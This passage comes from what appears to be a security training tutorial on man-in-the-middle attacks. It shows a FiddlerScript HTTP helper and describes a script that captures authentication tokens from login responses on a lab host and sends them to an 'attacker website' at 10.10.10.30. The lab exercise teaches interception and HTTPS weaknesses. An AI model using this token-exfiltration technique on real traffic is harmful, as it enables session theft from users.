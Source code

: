 
* Add an extra method to allow sending HTTP requests:
```
    public static function HTTPGet(Url:System.String, Data:System.String):System.String
    {
        var Out = String.Empty;
        var req = System.Net.WebRequest.Create(Url + (System.String.IsNullOrEmpty(Data) ? "" : "?" + Data));

        try{
            var resp = req.GetResponse();
            var stream = resp.GetResponseStream();

            var sr = new System.IO.StreamReader(stream);

            Out = sr.ReadToEnd();
            sr.Close();
            stream.Close();
        }
        catch(e){ Out = e.ToString();            
            FiddlerObject.alert(Out);
        }
        return Out;
    }
```

The script above will first intercept any successful authentication response from the targeted server (`oSession.HostnameIs("10.10.10.10") && oSession.uriContains("/api/login") && oSession.responseCode == 200`).
When this happens, the authentication token will be collected from the response (`System.Text.Encoding.UTF8.GetString(oSession.responseBodyBytes)`) and sent to the attacker website in charge of collecting stolen information (`Handlers.HTTPGet("http://10.10.10.30/api/logs/add",queryString)`).

Log in, and then visit `10.10.10.30`. Hopefully, this is the sort of thing you'd see:

<img src="{{ site.github.url }}/rsillem/assets/security-mitm/fiddlerscript.png" style="display: block; margin: auto;"/>

See how the samples behave with HTTPS
-----

Before starting this exercise, make sure that Fiddler is NOT capturing HTTPS requests, then close it down.

The basic failing we're addressing is that sensitive data is being passed using HTTP. HTTP gives us no confidence that the sensitive data has not been intercepted or tampered with, or indeed that we are actually talking to the right host. Those are the things that HTTPS provides, and happily the sample apps do support HTTPS, in a flawed way, as you'd expect.

Now is the time to make sure you have a firm grasp of what HTTPS is, and how (to a superficial level at least) it works. This should include an understanding of the handshake process, what certificates are, and how they are used and trust established.

These links might prove useful:

* [Wikipedia article on HTTPS](https://en.wikipedia.org/wiki/HTTPS)

